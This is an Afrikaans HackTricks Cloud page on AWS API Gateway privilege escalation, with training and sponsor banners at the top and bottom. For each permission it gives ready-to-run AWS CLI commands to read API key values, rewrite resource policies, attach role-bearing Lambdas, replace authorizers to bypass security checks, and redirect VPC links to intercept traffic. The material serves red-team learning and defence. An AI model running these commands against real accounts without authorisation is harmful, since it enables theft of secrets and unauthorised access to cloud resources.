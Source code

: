# AWS - Apigateway Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Vir meer inligting, kyk:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Met hierdie toestemming kan jy API sleutels van die geconfigureerde API's genereer (per streek).
```bash
aws --region <region> apigateway create-api-key
```
**Potensiële Impak:** Jy kan nie privesc met hierdie tegniek nie, maar jy mag toegang tot sensitiewe inligting kry.

### `apigateway:GET`

Met hierdie toestemming kan jy gegenereerde API-sleutels van die geconfigureerde API's (per streek) kry.
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potensiële Impak:** Jy kan nie privesc met hierdie tegniek nie, maar jy mag toegang tot sensitiewe inligting kry.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Met hierdie toestemmings is dit moontlik om die hulpbronbeleid van 'n API te wysig om jouself toegang te gee om dit aan te roep en die potensiële toegang wat die API-gateway mag hê, te misbruik (soos om 'n kwesbare lambda aan te roep).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potensiële Impak:** Jy sal gewoonlik nie direk met hierdie tegniek kan privesc nie, maar jy mag toegang tot sensitiewe inligting kry.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Benodig toetsing
{% endhint %}

'n Aanvaller met die toestemmings `apigateway:PutIntegration`, `apigateway:CreateDeployment`, en `iam:PassRole` kan **'n nuwe integrasie by 'n bestaande API Gateway REST API met 'n Lambda-funksie wat 'n IAM-rol aangeheg het, voeg**. Die aanvaller kan dan **die Lambda-funksie aktiveer om arbitrêre kode uit te voer en moontlik toegang tot die hulpbronne wat met die IAM-rol geassosieer is, te verkry**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Toegang tot hulpbronne geassosieer met die Lambda-funksie se IAM-rol.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Benodig toetsing
{% endhint %}

'n Aanvaller met die toestemmings `apigateway:UpdateAuthorizer` en `apigateway:CreateDeployment` kan **'n bestaande API Gateway-outeur aanpas** om sekuriteitskontroles te omseil of om arbitrêre kode uit te voer wanneer API-versoeke gemaak word.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Omseiling van sekuriteitskontroles, ongeoorloofde toegang tot API-hulpbronne.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Benodig toetsing
{% endhint %}

'n Aanvaller met die toestemming `apigateway:UpdateVpcLink` kan **'n bestaande VPC-koppeling wysig om na 'n ander Netwerk Laai Balans te verwys, wat moontlik private API-verkeer na ongeoorloofde of kwaadwillige hulpbronne kan herlei**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potensiële Impak**: Onbevoegde toegang tot private API-hulpbronne, onderskepping of onderbreking van API-verkeer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
